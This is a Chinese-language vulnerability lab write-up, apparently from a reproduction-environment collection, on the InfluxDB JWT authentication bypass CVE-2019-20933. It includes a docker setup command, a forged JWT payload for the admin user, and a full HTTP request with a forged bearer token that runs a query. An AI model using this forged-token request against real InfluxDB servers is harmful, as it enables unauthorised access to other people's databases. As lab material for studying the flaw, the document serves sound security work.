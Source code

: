 # InfluxDB JWT 认证绕过漏洞（CVE-2019-20933）

InfluxDB是一款著名的时序数据库，其使用jwt作为鉴权方式。

在其1.7.6版本以前，默认设置jwt的认证密钥`shared-secret`为空字符串，导致攻击者可以伪造任意用户身份在InfluxDB中执行SQL语句。

参考链接：

- https://www.komodosec.com/post/when-all-else-fails-find-a-0-day
- https://github.com/influxdata/influxdb/issues/12927
- https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933
- https://docs.influxdata.com/influxdb/v1.7/administration/config/#http-endpoints-settings

## 漏洞环境

执行如下命令启动InfluxDB 1.6.6：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8086/debug/vars`即可查看一些服务信息，但此时执行SQL语句则会出现401错误：

![](1.png)

## 漏洞复现

我们借助<https://jwt.io/>来生成jwt token：

```
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "username": "admin",
  "exp": 1676346267
}
```

其中，`admin`是一个已经存在的用户，`exp`是一个时间戳，代表着这个token的过期时间，你需要设置为一个未来的时间戳。

最终生成的token：

![](2.png)

发送带有这个jwt token的数据包，可见SQL语句执行成功：

```
POST /query HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoyOTg2MzQ2MjY3fQ.LJDvEy5zvSEpA_C6pnK3JJFkUKGq9eEi8T2wdum3R_s
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

db=sample&q=show+users
```

![](3.png)

